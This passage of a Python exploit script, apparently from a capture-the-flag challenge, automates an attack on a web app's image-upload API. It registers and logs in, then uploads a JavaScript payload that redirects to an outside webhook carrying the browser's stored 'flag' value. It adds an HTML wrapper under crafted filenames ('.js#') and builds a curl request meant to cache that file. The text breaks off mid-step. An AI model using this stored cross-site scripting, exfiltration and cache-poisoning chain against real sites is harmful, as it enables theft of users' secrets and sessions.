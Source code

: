 ```python
    r.raise_for_status()  # Raise an exception for bad status codes (4xx or 5xx)
    print(f"[+] Registration successful!")

    # --- Step 2: Login and get Token ---
    print("\n[2] Logging in...")
    login_url = f"{API_URL}/user/login"
    r = s.post(login_url, json=credentials, timeout=5)
    r.raise_for_status()
    login_data = r.json()
    token = login_data.get("token")
    if not token:
        raise ValueError("[!] Failed to get token from login response.")
    print(f"[+] Login successful! Token received.")

    # Add Authorization header for all subsequent requests in this session
    s.headers.update({"Authorization": f"Bearer {token}"})

    # --- Step 3: Get User Info and save userId ---
    print("\n[3] Fetching user info...")
    me_url = f"{API_URL}/user/me"
    r = s.get(me_url, timeout=5)
    r.raise_for_status()
    user_data = r.json()
    user_id = user_data.get("id")
    if not user_id:
        raise ValueError("[!] Failed to get user ID from /me endpoint.")
    print(f"[+] User ID retrieved: {user_id}")

    # --- Step 4: Upload JS payload file ---
    print("\n[4] Uploading JS payload file...")
    js_payload_content = f"window.location='{WEBHOOK_URL}?c='+localStorage.getItem(\"flag\")"
    files_js = {'file': ('.anything', js_payload_content, 'text/html')}
        
    upload_url = f"{API_URL}/image/upload"
    r = s.post(upload_url, files=files_js, timeout=5)
    r.raise_for_status()
    upload_js_data = r.json()
    js_id = upload_js_data.get("id")
    if not js_id:
        raise ValueError("[!] Failed to get ID for the JS payload file.")
    print(f"[+] JS payload uploaded successfully. ID: {js_id}")

    # --- Step 5: Upload HTML file ---
    print("\n[5] Uploading HTML file...")
    html_content = f"<html><body>asdf<script src=/api/image/{js_id}></script></body></html>"
    files_html = {'file': ('.js#', html_content, 'text/html')}
    r = s.post(upload_url, files=files_html, timeout=5)
    r.raise_for_status()
    upload_html_data = r.json()
    html_id = upload_html_data.get("id")
    if not html_id:
        raise ValueError("[!] Failed to get ID for the HTML wrapper file.")
    print(f"[+] HTML wrapper uploaded successfully. ID: {html_id}")

   # --- Step 6: Acecess and cache the uploaded html file. We use curl with --request-target to force the inclusion of "#" in the url.
    command = [
        "curl",
        "-v",
        "--request-target",
        f"/files/upload/{user_id}/{html_id}.js#",
        BASE_URL
    ]
```